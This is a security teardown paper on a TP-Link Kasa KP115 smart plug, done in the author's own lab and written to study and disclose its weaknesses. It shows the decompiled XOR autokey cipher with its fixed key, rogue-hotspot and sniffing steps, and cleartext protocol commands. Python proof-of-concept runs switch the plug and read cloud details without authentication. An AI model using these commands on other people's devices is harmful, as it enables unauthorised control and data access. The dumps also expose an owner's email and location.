




# Introduction

This paper steps through a “tear down” (a methodical decomposition of a system) of the TP-Link (Kasa) Smart Wi-Fi Plug Slim model KP115, which was purchased from Bunnings for about $20 in July 2021.

Goals and questions:

-   Evaluate firmware and software makeup
-   Analyse the app-to-device network communication employed
    -   Specific protocols and ports
    -   The onboarding or discovery process
    -   The use of any WAN (cloud) based services
-   Assess any potential security mechanisms used, such as encryption
-   If any are found to exist, practically demonstrate vulnerabilities



TP-Link is the umbrella company of Kasa, a consumer device manufacturer with a focus on IoT connected “smart devices”.

Some basic reconnaissance (TP-Link 2021) shows the “Kasa Smart Wi-Fi Plug Slim” is an actively supported product line and markets many consumer desirable qualities such as ease of use and setup, controllable from anywhere, voice control, an integrated timer for scheduling and even boasts “Multiple Safety Guarantees”.

# Aim

## Methodology

The security assessment was structured based on the lifecycle of an industry based offensive methodology, by MITRE Corporation (@mitre).

1. Reconnaissance: research on functionality, software eco-system available, documentation or patents on protocols, similar product lines, CVE databases
1. Resource development: create cloud account, install the android app, understand base functions, reverse engineer android app, design test bench
1. Initial access: establish connectivity to the smart plug via rogue access point (evil twin)
1. Discovery: network service scanning
1. Collection: MITM AP network sniffing
1. Command and control: reverse engineer the TP-Link Smart Home protocol (TSHP) and fabricate commands

The specifications (@tplinkspecs) highlight the device operates over 2.4GHz 802.11 b/g/n. This eliminated use of Bluetooth related protocols, focusing the design for intercepting network traffic to Wi-Fi only. It turns out a majority of IoT devices deployed in the wild are Wi-Fi based. One theory is that this is driven by cost saving measures by manufacturers, due to the ubiquity and affordability of Wi-Fi (@junior2019study).



## Tools and Equipment

The security assessment made use of the following.

Equipment:

-   A Kasa Smart Wi-Fi Plug Slim (KP115) – i.e., the device under evaluation
-   Thinkpad X220 running Arch Linux
-   Alfa AWUS036NHA USB Wi-Fi interface
-   Google Pixel 4A Android Smartphone

Tools and software:

-   The official _Kasa Smart_ Android App
-   A copy of the firmware `HS110(US)_V1_151016.zip` running on the device (@tplinkfirmware)
-   Wireshark and tcpdump
-   binwalk
-   `tplink-smarthome.lua`: a custom wireshark LUA dissector (@stroetmannlua)
-   `tplink_smartplug.py`: a proof of concept that implements the weak XOR autokey encryption used by the TP-Link Smart Home protocol (TSHP) called (@stroetmannpython)
-   Firmware for the Atheros family of network devices (for the Alfa)



After configuring the Atheros OS driver for the Alfa card, a Wi-Fi hotspot named “zeit8023” was setup:

```
$ nmcli dev wifi hotspot ifname wlx00c0ca991c64 ssid zeit8023 password 13371337

$ nmcli d
DEVICE                   TYPE      STATE                   CONNECTION
wlx00c0ca991c64          wifi      connected               Hotspot
enp0s25                  ethernet  unavailable             --
lo                       loopback  unmanaged               --
wlp3s0                   wifi      unmanaged               --
```

Having installed the “Kasa Smart” Android app from the Google play store on my Google Pixel 4A, the Google Pixel 4A Smartphone was connected to the hotspot, and TP-Link Smart Plug plugged into a power socket. The smart plug booted up automatically, and launched the pairing process.

On the ThinkPad, I configured Wireshark to profile all traffic flowing over the Alfa card. Using the “Kasa Smart” app on my Android I performed the following functions:

1. Switched the smart plug on.
1. Switched the smart plug off.
1. Switched the smart plug on.
1. Created a schedule to turn the switch off at 20:45
1. Switched the smart plug on.
1. Switched the smart plug off.

# Observations

Some high-level facts that were immediately drawn from the network capture:

-   The MAC address of the smart plug is `c0:06:c3:09:e0:61`
-   The IP address assigned to the smart plug is `10.42.0.126`
-   The IP address assigned to the Android Pixel Smartphone is `10.42.0.202`

## Port scan

After capturing the network trace, a port scan was conducted against the smart plug device, which revealed port 9999 was open – see Annex: C nmap scan results.

Analysing the port 9999 related traffic in Wireshark revealed that many TCP conversations were taking place between the Android Smartphone (the app) and the TP-Link Smart Plug. The message data appeared to contain indecipherable binary data. Using CyberChef I attempted to decode the binary data using several common encoding and encryption methods, to no avail.

## TP-Link Device Firmware and Server Daemon

Running `binwalk` on a copy of the firmware running on the smart plug (@tplinkfirmware), showed it was running a Linux 2.6 based kernel, and several other popular embedded sub-systems:

-   U-Boot Bootloader 1.1.4
-   Linux Kernel 2.6.31
-   A squashfs based filesystem

Examining the contents of the filesystem, discovered the following files of interest:

-   /bin/busybox v1.01 (2015.10.16-03:17+0000)
-   /usr/bin/shd

It turns out (@stroetmann) that `/usr/bin/shd` is the daemon server process responsible for handling the port 9999 related traffic, and is a C binary:

```
shd: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV),
dynamically linked, interpreter /lib/ld-uClibc.so.0, corrupted section header size
```

At this point I decided to abandon reversing the smart plug shd server process any further.

## Decompiled Kasa Smart Android App

Given the app is the command center for all its connected smart devices, I conceptualised that it would need to encrypt the "command data" in whatever scheme was being used.

Using "Apk Extractor" on the Google Pixel Smartphone, I was able to extract the "Kasa Smart" app’s apk package, and it turn it’s Java bytecode. With some help of security researchers (@stroetmann) I quickly discovered the key encryption function:

```java
public static byte[] m7377b(byte[] bArr) {
    if (bArr != null && bArr.length > 0) {
        int i = -85;
        for (int i2 = 0; i2 < bArr.length; i2++) {
            byte b = (byte) (i ^ bArr[i2]);
            i = bArr[i2];
            bArr[i2] = b;
        }
    }
    return bArr;
}
```

This simple encryption function uses the XOR bitwise operator (^) and washes each byte of the "command data", starting with the hardcoded IV value of -85 (or 171). Each iteration, the next cleartext data byte is XOR’ed with the previous cleartext byte (i.e. i = bArr[i2]). Involving the actual data as the key is known as an autokey cipher (@autokey).

Given the use of a hardcoded nonce (or IV), this process can easily be reversed to decrypt the message data.

As a proof of concept, a Python implementation `tplink_smartplug.py` and custom Wireshark LUA dissector tplink-smarthome.lua (@stroetmann) was used to conveniently decrypt and analyse the autokey encrypted conversations taking place between the app and the smart plug.



Now able to decipher the commands, set out to enumerated each function that was invoked using the smartphone app, and the resulting cleartext JSON message. See Annex: A Enumeration of TP-Link Smart Home Protocol Commands.

Finally, an end-to-end demonstration of just how weak security (essentially non-existent) measures are, invoked each function of the smart plug using Python. See Annex: B Programmatic Control using Python Script.

# Conclusion

The TP-Link (Kasa) Smart Plug demonstrates the delicate balance the industry currently faces towards providing consumer convenient connected technology (i.e., IoT) while in a safe and secure manner. As this paper shows, the security concerns are real.

On one end of the spectrum IoT manufacturers are under aggressive pressure to push products to market with the hope of soaking up as much market share as possible, taking paths of least resistance to “just get the job done”. On the other end, consumers, small and medium sized businesses are the ones left exposed due to under-baked products.

What deems an appropriate level of “safe and secure”, what frameworks or standards could be applied without burdening technology companies with unrealistic overheads while providing consumer comprehendible advice. Mr Farrell linked (@homeaffairs) to the thought-provoking initiative the Australian government is actively working through, to address these exact issues.

# Appendix A: Enumeration of TP-Link Smart Home Protocol Commands

Switch on request:

```json
{
    "context": { "source": "46a4d58b-6279-432c-ae23-e115c2db8354" },
    "system": { "set_relay_state": { "state": 1 } }
}
```

Switch off request:

```json
{
    "context": { "source": "46a4d58b-6279-432c-ae23-e115c2db8354" },
    "system": { "set_relay_state": { "state": 0 } }
}
```

Scheduled “turn off” event:

```json
{
    "schedule": {
        "get_rules": {
            "rule_list": [
                {
                    "id": "689CB20F436CEDEE16F8752FDFD26EBC",
                    "name": "Schedule Rule",
                    "enable": 1,
                    "wday": [1, 1, 1, 1, 1, 1, 1],
                    "stime_opt": 0,
                    "smin": 1245,
                    "sact": 0,
                    "eact": -1,
                    "repeat": 1
                }
            ],
            "version": 2,
            "enable": 1,
            "err_code": 0
        }
    }
}
```

System status response:

```json
{
    "system": {
        "get_sysinfo": {
            "sw_ver": "1.0.17 Build 210506 Rel.075231",
            "hw_ver": "1.0",
            "model": "KP115(AU)",
            "deviceId": "8006D8042A39366BDFDD6E65504D85FF1E64FC77",
            "oemId": "33AF6F102C6172F2E5BD6CEA656C19FF",
            "hwId": "8EDCE7F6CF8231678B90A6730D02BB41",
            "rssi": -34,
            "latitude_i": -354348,
            "longitude_i": 1491063,
            "alias": "Kasa smart plug",
            "status": "new",
            "obd_src": "tplink",
            "mic_type": "IOT.SMARTPLUGSWITCH",
            "feature": "TIM:ENE",
            "mac": "C0:06:C3:09:E0:61",
            "updating": 0,
            "led_off": 0,
            "relay_state": 1,
            "on_time": 31,
            "icon_hash": "",
            "dev_name": "Smart Wi-Fi Plug Mini",
            "active_mode": "schedule",
            "next_action": {
                "type": 1,
                "id": "689CB20F436CEDEE16F8752FDFD26EBC",
                "schd_sec": 74700,
                "action": 0
            },
            "ntc_state": 0,
            "err_code": 0
        }
    }
}
```

# Appendix B: Programmatic Control using Python Script

## Switch on

```
$ python3 ./tplink_smartplug.py -t 10.42.0.126 -c on
Sent:      {"system":{"set_relay_state":{"state":1}}}
Received:  {"system":{"set_relay_state":{"err_code":0}}}
```

## Switch off

```
$ python3 ./tplink_smartplug.py -t 10.42.0.126 -c off
Sent:      {"system":{"set_relay_state":{"state":0}}}
Received:  {"system":{"set_relay_state":{"err_code":0}}}
```

## Report energy use metrics

```
$ python3 ./tplink_smartplug.py -t 10.42.0.126 -c energy
Sent:      {"emeter":{"get_realtime":{}}}
Received:  {"emeter":{"get_realtime":{"current_ma":0,"voltage_mv":242327,"power_mw":0,"total_wh":0,"err_code":0}}}
```

## Show cloud details

```
$ python3 ./tplink_smartplug.py -t 10.42.0.126 -c cloudinfo
Sent:      {"cnCloud":{"get_info":{}}}
Received:  {"cnCloud":{"get_info":{"username":"ben@bencode.net","server":"n-devs.tplinkcloud.com","binded":1,"cld_connection":1,"illegalType":0,"stopConnect":0,"tcspStatus":1,"fwDlPage":"","tcspInfo":"","fwNotifyType":-1,"err_code":0}}}
```

## Run an access point (AP) scan

```
$ python3 ./tplink_smartplug.py -t 10.42.0.126 -c wlanscan
Sent:      {"netif":{"get_scaninfo":{"refresh":0}}}
Received:  {"netif":{"get_scaninfo":{"ap_list":[],"err_code":0}}}
```

## Show the time

```
$ python3 ./tplink_smartplug.py -t 10.42.0.126 -c time
Sent:      {"time":{"get_time":{}}}
Received:  {"time":{"get_time":{"year":2021,"month":9,"mday":9,"hour":21,"min":9,"sec":42,"err_code":0}}}
```

## List general information (including firmware version)

```
$ python3 ./tplink_smartplug.py -t 10.42.0.126 -c info
Sent:      {"system":{"get_sysinfo":{}}}
Received:  {"system":{"get_sysinfo":{"sw_ver":"1.0.17 Build 210506 Rel.075231","hw_ver":"1.0","model":"KP115(AU)","deviceId":"8006D8042A39366BDFDD6E65504D85FF1E64FC77","oemId":"33AF6F102C6172F2E5BD6CEA656C19FF","hwId":"8EDCE7F6CF8231678B90A6730D02BB41","rssi":-41,"latitude_i":-354348,"longitude_i":1491063,"alias":"Kasa smart plug","status":"new","obd_src":"tplink","mic_type":"IOT.SMARTPLUGSWITCH","feature":"TIM:ENE","mac":"C0:06:C3:09:E0:61","updating":0,"led_off":0,"relay_state":0,"on_time":0,"icon_hash":"","dev_name":"Smart Wi-Fi Plug Mini","active_mode":"schedule","next_action":{"type":-1},"ntc_state":0,"err_code":0}}}
```

## List active schedules

```
$ python3 ./tplink_smartplug.py -t 10.42.0.126 -c schedule
Sent:      {"schedule":{"get_rules":{}}}
Received:  {"schedule":{"get_rules":{"rule_list":[{"id":"689CB20F436CEDEE16F8752FDFD26EBC","name":"Schedule Rule","enable":1,"wday":[1,1,1,1,1,1,1],"stime_opt":0,"smin":1245,"sact":0,"eact":-1,"repeat":1}],"version":2,"enable":1,"err_code":0}}}
```

# Appendix C: nmap scan results

```
nmap -v -sV 10.42.0.126
Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-07 21:04 AEST
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 21:04
Scanning 10.42.0.126 [2 ports]
Completed Ping Scan at 21:04, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:04
Completed Parallel DNS resolution of 1 host. at 21:04, 0.01s elapsed
Initiating Connect Scan at 21:04
Scanning 10.42.0.126 [1000 ports]
Discovered open port 9999/tcp on 10.42.0.126
Completed Connect Scan at 21:04, 1.84s elapsed (1000 total ports)
Initiating Service scan at 21:04
Scanning 1 service on 10.42.0.126
Completed Service scan at 21:04, 9.11s elapsed (1 service on 1 host)
NSE: Script scanning 10.42.0.126.
Initiating NSE at 21:04
Completed NSE at 21:04, 0.01s elapsed
Nmap scan report for 10.42.0.126
Host is up (0.054s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
9999/tcp open  abyss?
```

# References
